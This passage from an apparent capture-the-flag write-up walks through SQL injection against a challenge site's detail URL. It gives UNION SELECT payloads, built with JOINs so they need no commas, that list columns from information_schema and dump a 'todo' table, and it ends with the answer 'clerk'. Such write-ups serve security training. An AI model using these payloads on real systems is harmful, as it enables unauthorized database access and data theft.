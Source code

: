 If we scroll down, we can see that there is a table called `todo` in the `encontact` database.

To list the column names of that table:

```sql
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT column_name FROM information_schema.columns WHERE table_name='todo')b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```
```
https://staging.jackfrosttower.com/detail/0,0 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT column_name FROM information_schema.columns WHERE table_name='todo')b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```

The titles of each card will now be the column names.

Then all we have to do is query that table directly:
```sql
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT note FROM todo)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```
```
https://staging.jackfrosttower.com/detail/0,0 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT note FROM todo)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```

Alternatively, in case the information_schema.columns table isn't working, we could brute-force the number of columns by doing `SELECT * FROM todo` and then removing the `JOIN` statements one at a time. This is the query that ended up working:
```sql
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT * FROM todo)b JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```
```
https://staging.jackfrosttower.com/detail/0,0 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT * FROM todo)b JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```

The last item on the TODO list is:
>With Santa defeated, offer the old man a job as a clerk in the Frost Tower Gift Shop so we can keep an eye on him

**Answer:** clerk